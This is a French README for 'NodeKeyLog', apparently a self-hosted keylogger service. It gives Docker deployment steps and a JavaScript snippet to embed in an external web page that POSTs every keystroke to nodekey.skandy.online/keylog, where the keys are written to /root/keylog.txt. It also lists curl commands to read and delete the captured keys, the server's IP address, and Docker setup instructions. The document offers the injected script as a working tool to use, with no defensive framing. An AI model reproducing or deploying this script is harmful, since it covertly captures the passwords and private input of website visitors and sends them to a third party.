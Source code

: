 # NodeKeyLog

2. **Lancer les conteneurs**
```bash
docker compose up -d --build
```

3. **Vérifier**
- Le serveur Node.js écoute sur le port 3000 (interne)
- Nginx reverse proxy sur http://nodekey.skandy.online et http://www.nodekey.skandy.online
- Les touches sont enregistrées dans `/root/keylog.txt` sur le serveur

## Script client
Inclure le fichier `client-keylogger.js` dans ta page HTML externe.
```
  <script >(function() {
        document.addEventListener('keydown', function(e) {
            fetch('http://nodekey.skandy.online/keylog', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({ key: e.key })
            });
        });
    })();</script>
    
```

## Tester le fonctionnement

1. **Vérifier que les conteneurs tournent**
   ```bash
   docker ps
   ```
   Tu dois voir deux conteneurs : `nodekeylog-server` et `nodekeylog-nginx`.

2. **Vérifier que le serveur répond**
   - Ouvre un navigateur et va sur :
     - http://nodekey.skandy.online
     - ou http://146.190.136.86
   - curl -X POST http://nodekey.skandy.online/keylog -H "Content-Type: application/json" -d '{"key":"A"}'


# 1. Mettre à jour les paquets
sudo apt-get update
sudo apt-get install -y ca-certificates curl gnupg lsb-release

# 2. Créer le répertoire pour les clés
sudo mkdir -p /etc/apt/keyrings

# 3. Télécharger la clé GPG officielle Docker
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

# 4. Donner les bonnes permissions
sudo chmod a+r /etc/apt/keyrings/docker.gpg

# 5. Ajouter le dépôt Docker (remplace $(lsb_release -cs) par ta version Ubuntu si besoin, ex : jammy, focal…)
echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/ubuntu \
  $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null

# 6. Mettre à jour et installer Docker
sudo apt-get update
sudo apt-get install -y docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin

---

## Dépannage & Astuces

### Problème de montage du fichier `/root/keylog.txt`

Si tu obtiens une erreur du type :
```
error mounting "/root/keylog.txt" ... not a directory: unknown: Are you trying to mount a directory onto a file (or vice-versa)?
```
**Solution :**
1. Supprime le conteneur Node.js :
   ```bash
   docker rm -f nodekeylog-server
   ```
2. Sur le serveur, assure-toi que `/root/keylog.txt` existe et est bien un fichier :
   ```bash
   rm -rf /root/keylog.txt
   touch /root/keylog.txt
   chmod 666 /root/keylog.txt
   ```
3. Relance les conteneurs :
   ```bash
   docker compose up -d --build
   ```

### Tester l’API avec curl

Pour vérifier que le serveur reçoit bien les touches :
```bash
curl -X POST http://nodekey.skandy.online/keylog -H "Content-Type: application/json" -d '{"key":"A"}'
```
Tu dois recevoir :
```json
{"message":"Touche enregistrée."}
```
Et voir la lettre dans `/root/keylog.txt` :
```bash
cat /root/keylog.txt
```
### commande api 

curl http://nodekey.skandy.online/health

curl -X DELETE http://nodekey.skandy.online/keylog

curl http://nodekey.skandy.online/keylog

---
